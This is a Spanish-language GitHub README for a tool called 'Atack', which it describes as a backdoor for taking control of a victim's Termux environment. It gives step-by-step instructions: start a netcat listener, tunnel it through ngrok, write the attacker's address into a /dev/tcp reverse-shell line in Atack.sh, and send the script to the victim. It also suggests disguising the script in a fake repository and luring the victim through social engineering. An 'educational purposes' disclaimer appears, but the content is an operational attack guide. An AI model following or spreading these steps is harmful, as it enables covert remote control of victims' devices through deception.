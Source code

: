 # Atack
Esta script es un backdoor para tomar control de la victima de su termux su uso es facil de la maquina atacante abrimos un puerto con nc -lvp puerto y luego lo abrimos con ngrok tcp , una ves echo eso nos vamos a la script Atack.sh editamos con nano y ponemos la ip ngrok y el puerto ngrok en dev/tcp/ipngrok/puertongrok

#Su uso es para fines educativos no me hago responsable del mal uso

Tutorial de como usarlo :
https://youtu.be/jd1Wf_pU6dE

#PASOS A SEGUIR
1) nc -lvp (puerto)

2) en una session abrir ese puerto tcp mediante ngrok

3) git clone https://github.com/MRX90902WX/Atack

cd Atack

nano Atack.sh

editar el archivo poner la ip y el puerto atacante
dentro de la siguiente linea /dev/tcp/IP/PUERTO

Una ves eso lo guardan y le envían a la victima
pueden crear un repo falso disque para hacer troyanos 
usen ig social con la victima.
